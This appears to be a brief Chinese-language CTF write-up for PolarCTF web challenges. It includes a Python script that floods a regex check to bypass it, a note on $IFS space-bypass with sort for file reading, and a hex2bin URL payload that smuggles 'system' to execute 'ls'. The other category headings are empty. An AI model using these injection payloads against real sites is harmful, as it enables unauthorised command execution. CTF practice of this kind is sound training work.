 # web
### swp
递归绕过正则限制
```python
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://d9d00980-d2fc-412e-b6cc-b6db2562eafb.www.polarctf.com:8090/index.php', data=data, allow_redirects=False)
print(res.content)

```

### 简单rce
$IFS空格绕过+sort读取文件

### 上传


### 非常好绕的命令执行

hex2bin转换
`http://1ae67e55-509c-49e4-9bf7-a04be9788ca5.www.polarctf.com:8090/?args1=hex2bin&args2='73797374656d'&args3='ls'`


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-09   23:22